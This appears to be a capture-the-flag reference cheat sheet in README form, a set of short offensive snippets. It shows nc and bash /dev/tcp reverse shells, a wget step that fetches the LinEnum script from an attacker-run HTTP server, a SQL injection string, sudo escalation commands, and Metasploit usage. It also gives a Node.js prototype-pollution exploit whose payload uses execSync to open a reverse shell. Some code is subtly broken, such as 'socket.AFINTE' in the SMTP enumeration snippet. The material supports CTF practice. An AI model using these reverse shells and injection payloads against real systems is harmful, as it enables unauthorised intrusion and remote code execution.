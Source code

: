 # CTF Reference

### Native tools
- [Lin Enum](https://github.com/rebootuser/LinEnum)
- [RustScan](https://github.com/RustScan/RustScan)
- [Stegsolve](https://github.com/zardus/ctf-tools/tree/master/stegsolve)

### Online tools
- [Crypto Chef](https://gchq.github.io/CyberChef/)

 
### Sudo basic escalation
```
sudo -l
sudo -u theuser <app>
```

### Basic SQL injection
```
' OR name='test';--
```

### Quick Python HTTP server
Will serve any file in directory
```shell
python -m SimpleHTTPServer 8000
```
To fetch from the remote machine
```shell
wget http://<ip>:8000/LinEnum.sh
```

### nc reverse shell
Listener
```
nc -nlvp 444
```
Client
```
/bin/sh | nc <ip> 444
# or
bash -c "bash -i >& /dev/tcp/127.0.0.1/444 0>&1"
```
### nmap
```shell
nmap -sC -A -T4 <ip>
```

### dirb
```shell
dirb <url> /usr/share/wordlists/dirb/common.txt
```

### Metasploit basic usage
```shell
msfconsole
search <name>
use <id>
show options
set rhosts <ip>
set targeturi /cgi-bin/hello.cgi
run
```

### Basic banner grabbing (Python)
```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect(("10.198.73.23", 23))

print s.recv(1024)
```

### Recursive wget 
```shell
wget -r --level=1 -p http://<website> 
find . -name "*" -exec cat {} \; | grep "@email.com" # find strings in downloaded sites
```

### Protoype pollution AST injection
- [Nodejs AST injection](https://blog.p6.is/AST-Injection/)

```python
import requests

TARGET_URL = 'http://10.10.12.14:8713'

requests.post(TARGET_URL + '/submit', json = {
    "__proto__.type": "Program",
    "__proto__.body": [{
        "type": "MustacheStatement",
        "path": 0,
        "params": [{
            "type": "NumberLiteral",
            "value": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/10.10.12.14/6666 0>&1'`)"
        }],
        "loc": {
            "start": 0,
            "end": 0
        }
    }]
})

print()

# execute
requests.get(TARGET_URL)
```

### Basic SMTP enum (Python)

```python
import socket
f = open("userlist", "r")
users = f.readlines()

for user in users:
    s = socket.socket(socket.AFINTE)

    s.connect(("mail.baldrinc.com", 25))
    s.recv(1024)
    s.send("HELO")
    #...
    
# 546d467562334a356558493d
```
